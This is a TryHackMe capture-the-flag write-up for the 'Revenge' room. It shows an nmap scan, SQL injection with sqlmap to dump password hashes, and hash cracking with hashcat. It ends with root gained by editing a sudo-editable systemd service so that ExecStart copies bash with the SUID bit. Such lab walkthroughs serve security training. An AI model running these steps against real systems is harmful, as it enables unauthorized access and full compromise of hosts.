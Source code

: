```yaml
---
title: "TryHackMe - Revenge"
author: Nasrallah
description: ""
date: 2023-03-09 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hashcat, cracking, sqli, sqlmap, service]
img_path: /assets/img/tryhackme/revenge
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Revenge](https://tryhackme.com/room/revenge) from [TryHackMe](https://tryhackme.com). We find a webpage vulnerable to sql injection where we use sqlmap to extract data. With that we get a username and password hash that we crack giving us credentials to ssh into the machine. With the current user we can edit a service file and restart it, so we easily exploit that to run our own script that gives us root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.31.115
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7253b77aebab22701cf73c7ac776d989 (RSA)
|   256 437700fbda42025852127dcd4e524fc3 (ECDSA)
|_  256 2b57137cc84f1dc26867283f8e3930ab (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two ports, 22 running OpenSSH and 80 running Nginx http web server.

### Web

Let's navigate to the web page.

![](1.png)

This is a website for a wholesaler.

Navigating through the different tabs and pages, we find the that the products page uses numbers to for different products.

![](4.png)

Let's give that url to `sqlmap` and see what happens.

![](2.png)

The target is vulnerable to sql injection and we managed to get system users and password hashes.

## **Foothold**

### Cracking

Let's try cracking the hashes using `hashcat`.

```bash
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
```

![](3.png)

We got a hashes, le's ssh to the target

![](5.png)


## **Privilege Escalation**

Let's check our privileges on the system

```bash
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl
        daemon-reload, sudoedit /etc/systemd/system/duckyinc.service
```

We see that we can edit duckyinc.service, enable, start and restart.

First, let's create a file that that when executed gives a copy of bash the suid bit

```bash
server-admin@duckyinc:~$ cat /tmp/hack 
cp /bin/bash /tmp/bash ; chmod +s /tmp/bash
```

Now we need to change the `User`, `Group` and `ExecStart` on the service file.

```bash
server-admin@duckyinc:~$ cat /etc/systemd/system/duckyinc.service 
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash /tmp/hack
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

Now we reload the daemon and restart the service.

```bash
/bin/systemctl restart duckyinc.service
/bin/systemctl daemon-reload
```

![](6.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
